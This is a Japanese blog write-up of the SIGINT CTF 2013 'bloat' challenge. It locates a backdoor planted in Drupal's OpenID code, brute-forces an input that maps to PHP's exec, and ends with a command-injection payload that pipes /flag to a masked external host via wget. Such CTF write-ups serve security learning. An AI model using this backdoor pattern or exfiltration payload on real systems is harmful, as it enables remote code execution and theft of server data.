 ```yaml
---
title: SIGINT CTF 2013 writeup – bloat (cloud 200)
author: tyage
type: post
date: 2013-07-16T20:23:45+00:00
url: /?p=689
wp-syntax-cache-content:
  - |
    a:4:{i:1;s:590:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="line_numbers"><pre>10
    </pre></td><td class="code"><pre class="php" style="font-family:monospace;"><span style="color: #990000;">define</span><span style="color: #009900;">&#40;</span><span style="color: #0000ff;">'OPENID_DH_DEFAULT_GEN'</span><span style="color: #339933;">,</span> <span style="color: #0000ff;">'86'</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span></pre></td></tr></table><p class="theCode" style="display:none;">define('OPENID_DH_DEFAULT_GEN', '86');</p></div>
    ";i:2;s:2414:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="line_numbers"><pre>211
    212
    213
    214
    215
    216
    217
    218
    219
    220
    </pre></td><td class="code"><pre class="php" style="font-family:monospace;">      <span style="color: #000088;">$discovery</span> <span style="color: #339933;">=</span> openid_discovery<span style="color: #009900;">&#40;</span><span style="color: #000088;">$imaginably</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
          <span style="color: #b1b100;">if</span><span style="color: #009900;">&#40;</span><span style="color: #990000;">strpos</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$imaginably</span><span style="color: #339933;">,</span> <span style="color: #0000ff;">'@'</span><span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span>
      <span style="color: #009900;">&#123;</span>
       <span style="color: #990000;">list</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$user</span><span style="color: #339933;">,</span> <span style="color: #000088;">$host</span><span style="color: #009900;">&#41;</span> <span style="color: #339933;">=</span> <span style="color: #990000;">explode</span><span style="color: #009900;">&#40;</span><span style="color: #0000ff;">'@'</span><span style="color: #339933;">,</span> <span style="color: #000088;">$imaginably</span><span style="color: #339933;">,</span> <span style="color: #cc66cc;">2</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    <span style="color: #009900;">&#125;</span>
    <span style="color: #b1b100;">else</span>
        <span style="color: #009900;">&#123;</span>
         <span style="color: #000088;">$user</span> <span style="color: #339933;">=</span> <span style="color: #009900; font-weight: bold;">false</span><span style="color: #339933;">;</span>
         <span style="color: #000088;">$host</span> <span style="color: #339933;">=</span> <span style="color: #009900; font-weight: bold;">false</span><span style="color: #339933;">;</span>
         <span style="color: #009900;">&#125;</span></pre></td></tr></table><p class="theCode" style="display:none;">      $discovery = openid_discovery($imaginably);
          if(strpos($imaginably, '@'))
      {
       list($user, $host) = explode('@', $imaginably, 2);
    }
    else
        {
         $user = false;
         $host = false;
         }</p></div>
    ";i:3;s:1329:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="line_numbers"><pre>247
    248
    </pre></td><td class="code"><pre class="php" style="font-family:monospace;"><span style="color: #000088;">$user_enc</span> <span style="color: #339933;">=</span> _openid_dh_long_to_base64<span style="color: #009900;">&#40;</span><span style="color: #000088;">$user</span> <span style="color: #339933;">*</span> OPENID_DH_DEFAULT_GEN<span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
        <span style="color: #000088;">$service</span><span style="color: #009900;">&#91;</span><span style="color: #0000ff;">'uri'</span><span style="color: #009900;">&#93;</span> <span style="color: #339933;">=</span> drupal_map_assoc<span style="color: #009900;">&#40;</span><span style="color: #990000;">array</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$host</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">,</span> <span style="color: #000088;">$user_enc</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span></pre></td></tr></table><p class="theCode" style="display:none;">$user_enc = _openid_dh_long_to_base64($user * OPENID_DH_DEFAULT_GEN);
        $service['uri'] = drupal_map_assoc(array($host), $user_enc);</p></div>
    ";i:4;s:2110:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="php" style="font-family:monospace;"><span style="color: #b1b100;">for</span> <span style="color: #009900;">&#40;</span><span style="color: #000088;">$i</span><span style="color: #339933;">=</span><span style="color: #cc66cc;">0</span><span style="color: #339933;">;</span><span style="color: #000088;">$i</span><span style="color: #339933;">&lt;</span><span style="color: #cc66cc;">100000</span><span style="color: #339933;">;++</span><span style="color: #000088;">$i</span><span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
      <span style="color: #000088;">$user_enc</span> <span style="color: #339933;">=</span> _openid_dh_long_to_base64<span style="color: #009900;">&#40;</span><span style="color: #000088;">$i</span> <span style="color: #339933;">*</span> <span style="color: #cc66cc;">86</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
      <span style="color: #b1b100;">if</span> <span style="color: #009900;">&#40;</span><span style="color: #990000;">is_callable</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$user_enc</span><span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
        <span style="color: #990000;">var_dump</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$user_enc</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
        <span style="color: #990000;">var_dump</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$i</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
      <span style="color: #009900;">&#125;</span>
    <span style="color: #009900;">&#125;</span></pre></td></tr></table><p class="theCode" style="display:none;">for ($i=0;$i&lt;100000;++$i) {
      $user_enc = _openid_dh_long_to_base64($i * 86);
      if (is_callable($user_enc)) {
        var_dump($user_enc);
        var_dump($i);
      }
    }</p></div>
    ";}
categories:
  - CTF

---
```

<h3>CTF</h3>
<p>えと、ブログを更新停止している間に、Epsilon DeltaとしていくつかCTFに参加していました。</p>
<ul>
<li>Codegate YUT Preliminary 2013</li>
<li>Nuit du Hack CTF Quals 2013</li>
<li>BaltCTF Quals 2013</li>
<li>SECUINSIDE CTF Quals 2013</li>
<li>Boston Key Party CTF 2013</li>
<li>DEF CON CTF Qualifier 2013</li>
<li>SIGINT CTF 2013</li>
</ul>
<p>はじめは海外のCTFの感覚がつかめず、ちゃんと解いたような記憶もなかったのですが、BKPあたりからは少し慣れてきたような気がします。</p>
<p>今まで解いてた問題のwrite upを書こうとも思ったのですが、すっかり忘れてしまっているため、一番最近やったSIGINT CTFのwrite upを書くことにします。</p>
<p><!--more--></p>
<hr />
<h3>bloat</h3>
<p><a href="https://ctf.sigint.ccc.de/challenges/24/">SIGINT CTF 2013 – bloat (cloud 200)</a></p>
<p>この問題は、PHPで作られたWebアプリケーションにバックドアが仕掛けられているので、それを発見しろという問題です。</p>
<p>ソースコードが配られているのでそれを見てバックドアを探します。</p>
<p>配布されたソースコードはDrupalを使用したものでした。</p>
<p>ということなので、早速diffをとってみるのですが、様々な場所の変数名が変更されており、またインデントや改行もめっちゃくちゃにされていたため、diffをとると何万行ものダミー変更部に悩まされることになり、バックドアの発見は難しくなっていました。</p>
<p>そこで、PHPの構文を解析して圧縮してくれる<a href="https://code.google.com/p/php-compressor/">php-compressor</a>を使用し、ファイルを圧縮した上でdiffをとってみました。<br />
（実際には今回の問題用に圧縮後の変数名の命名方法を変更するなどしています。）</p>
<p>すると、何千行か関係のないdiffもあったのですが、openID関連のファイルにバックドアらしき変更がされているのが見つかりました。</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="line_numbers"><pre>10
</pre></td><td class="code"><pre class="php" style="font-family:monospace;"><span style="color: #990000;">define</span><span style="color: #009900;">&#40;</span><span style="color: #0000ff;">'OPENID_DH_DEFAULT_GEN'</span><span style="color: #339933;">,</span> <span style="color: #0000ff;">'86'</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span></pre></td></tr></table></div>


<div class="wp_syntax" style="position:relative;"><table><tr><td class="line_numbers"><pre>211
212
213
214
215
216
217
218
219
220
</pre></td><td class="code"><pre class="php" style="font-family:monospace;">      <span style="color: #000088;">$discovery</span> <span style="color: #339933;">=</span> openid_discovery<span style="color: #009900;">&#40;</span><span style="color: #000088;">$imaginably</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
      <span style="color: #b1b100;">if</span><span style="color: #009900;">&#40;</span><span style="color: #990000;">strpos</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$imaginably</span><span style="color: #339933;">,</span> <span style="color: #0000ff;">'@'</span><span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span>
  <span style="color: #009900;">&#123;</span>
   <span style="color: #990000;">list</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$user</span><span style="color: #339933;">,</span> <span style="color: #000088;">$host</span><span style="color: #009900;">&#41;</span> <span style="color: #339933;">=</span> <span style="color: #990000;">explode</span><span style="color: #009900;">&#40;</span><span style="color: #0000ff;">'@'</span><span style="color: #339933;">,</span> <span style="color: #000088;">$imaginably</span><span style="color: #339933;">,</span> <span style="color: #cc66cc;">2</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
<span style="color: #009900;">&#125;</span>
<span style="color: #b1b100;">else</span>
    <span style="color: #009900;">&#123;</span>
     <span style="color: #000088;">$user</span> <span style="color: #339933;">=</span> <span style="color: #009900; font-weight: bold;">false</span><span style="color: #339933;">;</span>
     <span style="color: #000088;">$host</span> <span style="color: #339933;">=</span> <span style="color: #009900; font-weight: bold;">false</span><span style="color: #339933;">;</span>
     <span style="color: #009900;">&#125;</span></pre></td></tr></table></div>


<div class="wp_syntax" style="position:relative;"><table><tr><td class="line_numbers"><pre>247
248
</pre></td><td class="code"><pre class="php" style="font-family:monospace;"><span style="color: #000088;">$user_enc</span> <span style="color: #339933;">=</span> _openid_dh_long_to_base64<span style="color: #009900;">&#40;</span><span style="color: #000088;">$user</span> <span style="color: #339933;">*</span> OPENID_DH_DEFAULT_GEN<span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    <span style="color: #000088;">$service</span><span style="color: #009900;">&#91;</span><span style="color: #0000ff;">'uri'</span><span style="color: #009900;">&#93;</span> <span style="color: #339933;">=</span> drupal_map_assoc<span style="color: #009900;">&#40;</span><span style="color: #990000;">array</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$host</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">,</span> <span style="color: #000088;">$user_enc</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span></pre></td></tr></table></div>

<p>drupal_map_assocをみてみると、array_mapを使用しているため、$user_encが関数名となればその関数を実行できるようだとわかりました。</p>
<p>そこで、実行できる関数を探すため、以下のscriptを走らせたところ、execとfile関数が実行可能であると判明しました。</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="php" style="font-family:monospace;"><span style="color: #b1b100;">for</span> <span style="color: #009900;">&#40;</span><span style="color: #000088;">$i</span><span style="color: #339933;">=</span><span style="color: #cc66cc;">0</span><span style="color: #339933;">;</span><span style="color: #000088;">$i</span><span style="color: #339933;">&lt;</span><span style="color: #cc66cc;">100000</span><span style="color: #339933;">;++</span><span style="color: #000088;">$i</span><span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
  <span style="color: #000088;">$user_enc</span> <span style="color: #339933;">=</span> _openid_dh_long_to_base64<span style="color: #009900;">&#40;</span><span style="color: #000088;">$i</span> <span style="color: #339933;">*</span> <span style="color: #cc66cc;">86</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
  <span style="color: #b1b100;">if</span> <span style="color: #009900;">&#40;</span><span style="color: #990000;">is_callable</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$user_enc</span><span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
    <span style="color: #990000;">var_dump</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$user_enc</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    <span style="color: #990000;">var_dump</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$i</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
  <span style="color: #009900;">&#125;</span>
<span style="color: #009900;">&#125;</span></pre></td></tr></table></div>

<p> => 結果：</p>
<pre>
string(4) "exec"
int(93802)
string(4) "file"
int(96141)
</pre>
<p>ここまでくれば、あとはexec関数を実行するだけです。</p>
<p>しかし、関数の実行結果はレスポンスで帰ってこないため、wgetを使用して、結果を見れるようにしました。</p>
<p>色々したところ、/flagにflagがあることが判明したので、以下の文字列をopenIDに入力して送信し、flagを獲得しました。</p>
<pre>
93802@cat /flag | awk '{print "http://xxxxx/xxx?key=" $0;}' | xargs wget
</pre>
<h3>オチ</h3>
<p>最終的に解けたのはいいのですが、実はコンテストの開催期間を勘違いしており、問題をちゃんと解き始めた時点でコンテストが終わっていたのでした・・・</p>
<p>結局、ポイント的に今回はチームに貢献することができませんでしたorz</p>
<p>この問題のポイントを獲得したのは1チームだけだったようです。<br />
参考にそのチームの方のwrite upを載せておきます。</p>
<p><a href="https://cesena.ing2.unibo.it/2013/07/07/sigint-2013-cloud200-bloat/">SIGINT 2013 – [cloud200] bloat</a></p>
<p>個人的には最後にncコマンドを使用したところは非常に参考になりました。<br />
なんで思いつかなかったんだろう。。。</p>
